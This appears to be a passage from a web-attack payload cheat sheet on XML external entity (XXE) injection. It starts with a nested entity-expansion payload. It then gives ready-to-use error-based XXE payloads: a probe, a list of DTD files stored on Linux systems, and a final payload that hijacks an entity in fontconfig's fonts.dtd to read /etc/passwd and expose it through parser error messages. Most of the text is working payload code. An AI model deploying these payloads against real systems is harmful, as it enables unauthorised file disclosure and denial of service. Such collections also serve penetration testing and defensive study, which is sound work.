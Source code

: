 ```xml
<!DOCTYPE r [
  <!ENTITY % pe_1 "<!---->">
  <!ENTITY % pe_2 "&#37;pe_1;<!---->&#37;pe_1;">
  <!ENTITY % pe_3 "&#37;pe_2;<!---->&#37;pe_2;">
  <!ENTITY % pe_4 "&#37;pe_3;<!---->&#37;pe_3;">
  %pe_4;
]>
<r/>
```





## Exploiting Error Based XXE

### Error Based - Using Local DTD File

If error based exfiltration is possible, you can still rely on a local DTD to do concatenation tricks. Payload to confirm that error message include filename.

```xml
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///abcxyz/">
    %local_dtd;
]>
<root></root>
```

* [GoSecure/dtd-finder](https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md) - List DTDs and generate XXE payloads using those local DTDs.


#### Linux Local DTD

Short list of DTD files already stored on Linux systems; list them with `locate .dtd`:

```xml
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/share/xml/svg/svg10.dtd
/usr/share/xml/svg/svg11.dtd
/usr/share/yelp/dtd/docbookx.dtd
```

The file `/usr/share/xml/fontconfig/fonts.dtd` has an injectable entity `%constant` at line 148: `<!ENTITY % constant 'int|double|string|matrix|bool|charset|langset|const'>`

The final payload becomes:

```xml
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
    <!ENTITY % constant 'aaa)>
            <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
            <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///patt/&#x25;file;&#x27;>">
            &#x25;eval;
            &#x25;error;
            <!ELEMENT aa (bb'>
    %local_dtd;
]>
<message>Text</message>
```
